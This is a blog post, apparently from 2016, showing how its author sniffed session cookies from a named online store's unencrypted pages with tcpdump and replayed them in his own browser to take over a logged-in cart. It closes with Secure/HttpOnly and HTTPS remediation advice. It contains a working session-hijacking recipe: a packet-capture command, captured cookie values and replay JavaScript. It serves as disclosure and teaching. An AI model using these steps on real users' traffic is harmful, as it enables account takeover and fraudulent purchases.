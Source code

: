 ```yaml
---
title: Stealing Session Cookies with Tcpdump
layout: post
date: 2016-06-23T21:55:24Z
tags: []
uuid: 309396d4-fe6e-30a1-1a96-35281b58fb77
---
```


My wife was shopping online for running shoes when she got this
classic Firefox pop-up.

[![](/img/tcpdump/warning-thumb.png)](/img/tcpdump/warning.png)

These days this is usually just a server misconfiguration annoyance.
However, she was logged into an account, which included a virtual
shopping cart and associated credit card payment options, meaning
actual sensitive information would be at risk.

The main culprit was the website's search feature, which wasn't
transmitted over HTTPS. There's an HTTPS version of the search (which
I found manually), but searches aren't directed there. This means it's
also vulnerable to [SSL stripping][sslstrip].

Fortunately Firefox warns about the issue and requires a positive
response before continuing. Neither Chrome nor Internet Explorer get
this right. Both transmit session cookies in the clear without
warning, then subtly mention it after the fact. She may not have even
noticed the problem (and then asked me about it) if not for that
pop-up.

I contacted the website's technical support two weeks ago and they
never responded, nor did they fix any of their issues, so for now you
can [see this all for yourself][rr].

### Finding the session cookies

To prove to myself that this whole situation was really as bad as it
looked, I decided to steal her session cookie and use it to manipulate
her shopping cart. First I hit F12 in her browser to peek at the
network headers. Perhaps nothing important was actually sent in the
clear.

![](/img/tcpdump/headers.png)

The session cookie (red box) was definitely sent in the request. I
only need to catch it on the network. That's an easy job for tcpdump.

    tcpdump -A -l dst www.roadrunnersports.com and dst port 80 | \
        grep "^Cookie: "

This command tells tcpdump to dump selected packet content as ASCII
(`-A`). It also sets output to line-buffered so that I can see packets
as soon as they arrive (`-l`). The filter will only match packets
going out to this website and only on port 80 (HTTP), so I won't see
any extraneous noise (`dst <addr> and dst port <port>`). Finally, I
crudely run that all through grep to see if any cookies fall out.

On the next insecure page load I get this (wrapped here for display)
spilling many times into my terminal:

    Cookie: JSESSIONID=99004F61A4ED162641DC36046AC81EAB.prd_rrs12; visitSo
      urce=Registered; RoadRunnerTestCookie=true; mobify-path=; __cy_d=09A
      78CC1-AF18-40BC-8752-B2372492EDE5; _cybskt=; _cycurrln=; wpCart=0; _
      up=1.2.387590744.1465699388; __distillery=a859d68_771ff435-d359-489a
      -bf1a-1e3dba9b8c10-db57323d1-79769fcf5b1b-fc6c; DYN_USER_ID=16328657
      52; DYN_USER_CONFIRM=575360a28413d508246fae6befe0e1f4

That's a bingo! I massage this into a bit of JavaScript, go to the
store page in my own browser, and dump it in the developer console. I
don't know which cookies are important, but that doesn't matter. I
take them all.

    document.cookie = "Cookie: JSESSIONID=99004F61A4ED162641DC36046A" +
                      "C81EAB.prd_rrs12;";
    document.cookie = "visitSource=Registered";
    document.cookie = "RoadRunnerTestCookie=true";
    document.cookie = "mobify-path=";
    document.cookie = "__cy_d=09A78CC1-AF18-40BC-8752-B2372492EDE5";
    document.cookie = "_cybskt=";
    document.cookie = "_cycurrln=";
    document.cookie = "wpCart=0";
    document.cookie = "_up=1.2.387590744.1465699388";
    document.cookie = "__distillery=a859d68_771ff435-d359-489a-bf1a-" +
                      "1e3dba9b8c10-db57323d1-79769fcf5b1b-fc6c";
    document.cookie = "DYN_USER_ID=1632865752";
    document.cookie = "DYN_USER_CONFIRM=575360a28413d508246fae6befe0e1f4";

Refresh the page and now I'm logged in. I can see what's in the
shopping cart. I can add and remove items. I can checkout and complete
the order. My browser is as genuine as hers.

### How to fix it

The quick and dirty thing to do is set the [Secure][secure] and
[HttpOnly][httponly] flags on all cookies. The first prevents cookies
from being sent in the clear, where a passive observer might see them.
The second prevents the JavaScript from accessing them, since an
active attacker could inject their own JavaScript in the page.
Customers would appear to be logged out on plain HTTP pages, which is
confusing.

However, since this is an online store, there's absolutely no excuse
to be serving *anything* over plain HTTP. This just opens customers up
to downgrade attacks. The long term solution, in addition to the
cookie flags above, is to redirect all HTTP requests to HTTPS and
never serve or request content over HTTP, especially not executable
content like JavaScript.


[rr]: https://www.roadrunnersports.com
[sslstrip]: https://www.youtube.com/watch?v=MFol6IMbZ7Y
[secure]: http://tools.ietf.org/html/rfc6265#section-4.1.2.5
[httponly]: http://tools.ietf.org/html/rfc6265#section-4.1.2.6
